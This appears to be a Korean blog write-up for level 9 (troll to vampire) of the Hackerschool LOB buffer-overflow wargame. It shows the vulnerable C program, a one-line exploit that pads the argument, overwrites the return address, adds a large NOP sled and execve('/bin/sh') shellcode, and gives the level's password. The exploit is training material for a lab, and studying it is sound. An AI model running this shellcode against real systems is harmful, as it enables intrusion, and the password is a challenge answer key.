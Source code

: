 ```yaml
---
date: '2022-10-21'
before : '2022-10-10'
after : '2022-10-22'
title: 'FTZ LOB LEVEL 9'
categories: [ 'KOR', 'pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기__ __전에__

물론 HTB를 시작하긴 했지만, pwn공부도 천천히, 또 꾸준하게 해 나갈 생각이다. 결국 HTB에서도 pwn 기법을 사용할 일도 있거니와, 어차피 내년 초 CCNA 딸 때까지는 계속해서 양쪽의 기법에 익숙해지고, 또 여러가지 머신을 풀어나가며 해킹 프로세스도 손에 익히는 시간을 가질 예정이다. 


### 1. Level 9 : Troll -> Vampire

```
#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
        char buffer[40];

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // here is changed!
        if(argv[1][46] == '\xff')
        {
                printf("but it's not forever\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
}

```

```
./vampire `python -c 'print "D"*44+"\x28\xf3\xfe\xbf"+" "+"\x90"*100000+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
비밀번호 : music world
 ---
## Source

- 해커스쿨 FTZ
- Me!
